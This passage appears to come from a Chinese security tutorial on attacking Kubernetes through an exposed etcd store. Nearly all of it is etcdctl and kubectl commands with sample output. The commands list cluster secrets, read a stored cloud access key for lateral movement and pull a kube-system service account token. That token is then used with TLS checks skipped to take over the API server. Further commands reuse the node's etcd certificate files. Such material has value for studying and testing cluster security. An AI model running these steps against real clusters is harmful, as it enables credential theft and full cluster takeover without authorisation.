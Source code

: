 **攻击测试**  
ETCD V2和V3是两套不兼容的API，K8s使用V3，通过环境变量设置API V3：

```plain
export ETCDCTL_API=3
```

检查是否正常连接

```plain
etcdctl endpoint health

127.0.0.1:2379 is healthy: successfully committed proposal: took = 939.097µs
```

查看K8s secrets

```plain
etcdctl get / --prefix --keys-only | grep /secrets/
```

获取集群中保存的云产品AK，横向移动：

```plain
etcdctl get /registry/secrets/default/acr-credential-518dfd1883737c2a6bde99ed6fee583c
```

读取service account token

```plain
etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
```

通过token认证访问API-Server，接管集群：

```plain
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="[ey...]" -n kube-system get pods
```

**证书使用**  
查看链接状态

```plain
sudo ./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint health
```

[![](assets/1699842580-4c7f71b41ccc96844d965659495a1d3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170439-877d434e-7315-1.png)  
查看集群状态

```plain
etcdctl --write-out=table --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint status
```
